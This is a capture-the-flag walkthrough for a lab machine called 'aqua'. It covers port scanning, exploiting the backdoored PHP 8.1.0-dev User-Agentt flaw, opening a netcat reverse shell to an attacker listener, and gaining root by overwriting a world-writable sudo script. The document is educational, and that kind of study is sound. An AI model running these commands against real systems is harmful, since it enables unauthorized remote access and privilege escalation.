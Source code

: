 # 🖥 Walkthrough | aqua

## 1. Reconnaissance

To identify possible attack vectors, the first step is to scan the host for open ports. This can be done by using `nmap`. The parameter `-p-` instructs nmap to scan all 65535 ports:

```bash
# nmap -A -p- 192.168.60.3
[..]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 b7:a1:63:7e:11:df:24:9f:13:9e:85:b2:ac:f4:ab:47 (RSA)
|   256 7e:c2:cc:27:30:5a:5a:c9:20:96:c0:aa:3b:c8:64:1f (ECDSA)
|_  256 ab:c7:78:52:73:f4:80:7a:75:18:92:20:19:67:0e:9c (ED25519)
80/tcp open  http    Apache httpd (PHP 8.1.0-dev)
|_http-title: AQUA Design Studios
|_http-server-header: Apache
[..]
```

The output suggests that there are two open ports: an SSH and an HTTP server. The Apache HTTP server on port 80 appears to host a static website, which can be viewed in any web browser:

![website](img/01.png)

## 2. Exploitation / Remote code execution

The next step is to exploit vulnerabilities in the exposed services. The first option that comes to mind is the PHP version `8.1.0-dev` which was identified by the `nmap` scan.

A quick lookup with `searchsploit` shows an interesting exploit:

```bash
# searchsploit -t 8.1.0-dev      
---------------------------------------------------------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution       | php/webapps/49933.py
---------------------------------------------------------------------------------
```

This remote code execution vulnerability has been introduced by malicious actors in 2021: [PHP 8.1.0-dev - "User-Agentt Remote Code Execution"](https://www.exploit-db.com/exploits/49933)

We can examine the exploit script via `searchsploit -x php/webapps/49933.py`. Let's run it and see if it works:

```bash
# python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
Enter the full host url:
http://192.168.60.3/

Interactive shell is opened on http://192.168.60.3/ 
Can't acces tty; job crontol turned off.
$ id 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Cool! Looks like we can execute commands on the machine. The next step is to establish a reverse shell for an interactive experience. We can use this [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

Establishing the reverse shell happens in two steps:

1. Start a listener on your local Kali Linux machine on some port:  `nc -lnvp 4242`

2. Connect to the listener from `aqua` by using the Python exploit script from above and then executing:
   ```bash
   $ nc -e /bin/bash 192.168.60.2 4242
   ```
   > Note that you need to provide the IP address of your Kali machine, which is `192.168.60.2`.

As soon as the command in step 2 is executed, the listener from step 1 will show an incoming connection from `aqua`. You can now type shell commands that will be executed on the remote machine.

For a more convenient experience, it is recommended to upgrade the connection to an [interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). To do this, simply execute `python3 -c 'import pty; pty.spawn("/bin/bash")'`:

```bash
$ nc -lnvp 4242
listening on [any] 4242 ..connect to [192.168.60.2] from (UNKNOWN) [192.168.60.3] 57206
python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@aqua:/$ 
```

Now, there is a shell prompt and we can clearly see that we are logged in as the `daemon` user.

Now we can explore the file system with a couple of `ls` and `cd` commands to locate the first flag:

```bash
daemon@aqua:/$ ls -al /home/aqua                                                    
total 24                                                             
drwxr-xr-x 2 aqua aqua 4096 Jun 25 11:35 .                           
drwxr-xr-x 4 root root 4096 Jun 25 11:35 ..                          
-rw-r--r-- 1 aqua aqua  220 Aug  4  2021 .bash_logout                
-rw-r--r-- 1 aqua aqua 3526 Aug  4  2021 .bashrc                     
-rw-r--r-- 1 aqua aqua  807 Aug  4  2021 .profile                    
-rw-r--r-- 1 aqua aqua   69 Jun 25 11:35 token                      
daemon@aqua:/$ cat /home/aqua/token                                               
Hello there! This one is for you: AQUA{r3m0te_b4ckd00rz_ar3_aw3s0me} 
```

## 3. Privilege escalation

The next step is to escalate privileges to root to completely take control of the machine.

One of the first attempts should be to try if we can execute commands as root via `sudo`:

```bash
daemon@aqua:/$ sudo -l                                                                                          
Matching Defaults entries for daemon on aqua:                                                        
    env_reset, mail_badpass,                                                                         
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                    

User daemon may run the following commands on aqua:
    (root) NOPASSWD: /opt/restart-apache
```

It appears that the daemon user can run the script `/opt/restart-apache` as root without a password. That sounds nice, let's have a look at the file:

```bash
daemon@aqua:/$ cat /opt/restart-apache
#!/bin/bash

# Sometimes Apache just stops working...
# This script simply restarts the web server.

echo "Restarting Apache. This might take a moment..."
systemctl restart apache2.service
echo "Done!"
```

Apparently, the script simply restarts the Apache web server. Investigating the file permissions with `ls` shows that ANYONE can modify this file:

```bash
daemon@aqua:/$ ls -al /opt/restart-apache
-rwxrwxrwx 1 root root 202 Jun 25 11:39 /opt/restart-apache
```

Well, that's... weird? And insecure!

So let's override the file with another script that just runs the `bash` command:

```bash
daemon@aqua:/$ printf '#!/bin/bash\nbash' > /opt/restart-apache
```

Running this script via sudo should drop us into an interactive root shell:

```bash
daemon@aqua:/$ sudo /opt/restart-apache
root@aqua:/# id
uid=0(root) gid=0(root) groups=0(root)
root@aqua:/# cat /root/token
Nice job! Looks like you deserve this token: AQUA{w0rld_wr1t4ble_f1l3z_c4n_be_h3lpful}
```

Looks like we found our second token! Challenge completed!
